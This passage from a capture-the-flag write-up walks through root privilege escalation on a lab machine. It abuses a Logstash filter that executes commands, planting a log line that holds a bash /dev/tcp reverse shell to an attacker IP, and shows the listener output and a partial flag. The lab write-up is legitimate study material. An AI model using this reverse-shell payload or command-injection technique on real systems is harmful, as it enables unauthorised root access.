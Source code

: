 ### Strategy

I’ll use [Herokuapp](http://grokdebug.herokuapp.com/) to test my log against the filter. I’ll start with my filter in the second box:

![1561907471733](https://0xdfimages.gitlab.io/img/1561907471733.png)

Based on the regex, I can see it’s looking for “Ejecutar”, followed by 0 or more space characters, then “comando” followed by 0 or more space characters, the “:”, then one or more space characters. What’s left will be stored as `comando`.

I can test this by adding in an input string, “Ejecutar comando: id”, and I get output:

![1561907681441](https://0xdfimages.gitlab.io/img/1561907681441.png)

Knowing that the output will execute whatever is passed in as `comando`, I will update my input to give a reverse shell:

```

 Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'

```

### Shell

I’ll drop that log into a log file in the right directory:

```

bash-4.2$ echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'"
Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'

bash-4.2$ echo "Ejecutar comando: bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" > /opt/kibana/logstash_0xdf

```

After a few seconds:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.115.
Ncat: Connection from 10.10.10.115:40238.
bash: no hay control de trabajos en este shell
[root@haystack /]# id
id
uid=0(root) gid=0(root) grupos=0(root) contexto=system_u:system_r:unconfined_service_t:s0

```

And I can get `root.txt`:

```

[root@haystack ~]# cat root.txt 
3f5f727c...

```